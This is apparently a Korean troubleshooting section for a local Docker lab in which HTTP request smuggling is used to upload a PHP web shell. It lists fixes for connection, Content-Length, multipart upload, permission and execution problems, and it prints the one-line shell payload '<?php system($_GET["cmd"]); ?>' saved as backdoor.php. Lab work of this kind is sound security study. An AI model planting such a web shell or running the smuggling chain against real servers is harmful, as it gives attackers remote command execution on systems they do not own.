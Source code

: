 ## 🐛 트러블슈팅

### 문제 1: "Connection refused"

```bash
# 원인: Docker 컨테이너가 실행 중이 아님

# 해결:
docker ps | grep website2
cd website2
docker-compose up -d
```

### 문제 2: "400 Bad Request"

```bash
# 원인: Content-Length 계산 오류

# 디버그:
# 스크립트에서 len(smuggled_request) 출력 확인
# boundary가 정확한지 확인
```

### 문제 3: "Smuggling은 성공했는데 파일 업로드 실패"

```bash
# 확인 1: Multipart boundary 일치 여부
docker exec 1xinv_web_v2 tail -50 /var/log/apache2/error.log

# 확인 2: PHP 에러
docker exec 1xinv_web_v2 tail -50 /var/www/html/uploads/error.log

# 확인 3: 필드명 정확성
# name, email, phone, category, subject, message, image 모두 필수
```

### 문제 4: "웹쉘 접근 시 404 Not Found"

```bash
# 확인: 업로드된 파일
docker exec 1xinv_web_v2 ls -la /var/www/html/uploads/

# 파일이 있는데 404라면 권한 문제
docker exec 1xinv_web_v2 chmod 644 /var/www/html/uploads/backdoor.php
```

### 문제 5: "웹쉘은 있는데 명령 실행 안 됨"

```bash
# 확인: PHP 파일 내용
docker exec 1xinv_web_v2 cat /var/www/html/uploads/backdoor.php

# 예상 출력: <?php system($_GET["cmd"]); ?>

# 만약 다르다면 재업로드
```
